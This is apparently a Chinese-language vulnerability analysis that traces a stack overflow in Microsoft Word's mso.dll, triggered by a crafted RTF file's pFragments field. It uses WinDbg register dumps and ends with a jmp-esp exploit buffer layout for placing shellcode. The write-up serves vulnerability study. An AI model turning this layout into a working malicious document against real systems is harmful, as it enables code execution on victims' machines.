



####

### 0x00#
***
首先打开WinWord.exe,用windbg附加调试，打开crash.rtf文件。  

我们发现在rep move指令处程序crash掉了，通过查看esi以及edi，我们发现，程序已经复制了一部分数据到edi，至于挂掉的原因，大家可以在windbg中使用 !address edi 查看，发现此时的edi（130000）只能read。  

我们在当前eip 30e97c06 下一个断点。

看下图，我们知道rep mov 所在的函数是被30f749d2调用的。

在30f749d2下断点  

	....
	....
	0:000> 
	eax=30da4cb0 ebx=05000000 ecx=00123d80 edx=00000000 esi=01491128 edi=00123f48
	eip=30f74a05 esp=00123d64 ebp=00123d90 iopl=0         nv up ei pl zr na pe nc
	cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
	mso!Ordinal2212+0x29da:
	30f74a05 895df4          mov     dword ptr [ebp-0Ch],ebx ss:0023:00123d84=b2b95040
	0:000> 
	eax=30da4cb0 ebx=05000000 ecx=00123d80 edx=00000000 esi=01491128 edi=00123f48
	eip=30f74a08 esp=00123d64 ebp=00123d90 iopl=0         nv up ei pl zr na pe nc
	cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
	mso!Ordinal2212+0x29dd:
	30f74a08 ff501c          call    dword ptr [eax+1Ch]  ds:0023:30da4ccc=30e97be0

一直跟踪程序，发现到了调用rep mov 所在函数的位置,按F8跟踪函数内部  

	eax=01491128 ebx=05000000 ecx=0000c8ac edx=00000000 esi=1104000c edi=00123d80
	eip=30e97c01 esp=00123d58 ebp=00123d90 iopl=0         nv up ei pl nz na pe nc
	cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000206
	mso!Ordinal1105+0x807:
	30e97c01 8bc1            mov     eax,ecx
	0:000> 
	eax=0000c8ac ebx=05000000 ecx=0000c8ac edx=00000000 esi=1104000c edi=00123d80
	eip=30e97c03 esp=00123d58 ebp=00123d90 iopl=0         nv up ei pl nz na pe nc
	cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000206
	mso!Ordinal1105+0x809:
	30e97c03 c1e902          shr     ecx,2
	0:000> 
	eax=0000c8ac ebx=05000000 ecx=0000322b edx=00000000 esi=1104000c edi=00123d80
	eip=30e97c06 esp=00123d58 ebp=00123d90 iopl=0         nv up ei pl nz na pe nc
	cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000206
	mso!Ordinal1105+0x80c:
	30e97c06 f3a5            rep movs dword ptr es:[edi],dword ptr [esi]

注意ecx值，刚开始ecx为c8ac大家可以看，后面因为以Dword方式传送，所以向右移两位。查阅相关资料可以知道这个c8ac就是rtf文件中pFragments第三个参数偏移8位开始的两个字节。

在这个时候我们发现ebp - edi = 0x10  

意思就是说我们只要覆盖0x14字节后既可以覆盖到返回地址，另外关于shellcode的安置，可以通过pattern_create 来找到准确偏移，或者跟踪程序，如：

	0:000> 
	eax=00000000 ebx=00000000 ecx=e0040057 edx=00000000 esi=00000000 edi=00000000
	eip=30f74ac9 esp=00123d7c ebp=00123d90 iopl=0         nv up ei pl zr na pe nc
	cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
	mso!Ordinal2212+0x2a9e:
	30f74ac9 c9              leave
	0:000> 
	eax=00000000 ebx=00000000 ecx=e0040057 edx=00000000 esi=00000000 edi=00000000
	eip=30f74aca esp=00123d94 ebp=00000000 iopl=0         nv up ei pl zr na pe nc
	cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
	mso!Ordinal2212+0x2a9f:
	30f74aca c21400          ret     14h

发现程序最后会弹出0x14字节，所以我们在jmp esp后面写上20字节的无用数据就行。

jmp esp方式：

junk + （length of data） + junk(20 bytes) + address of jmp esp + junk(20bytes) + shellcode 
  

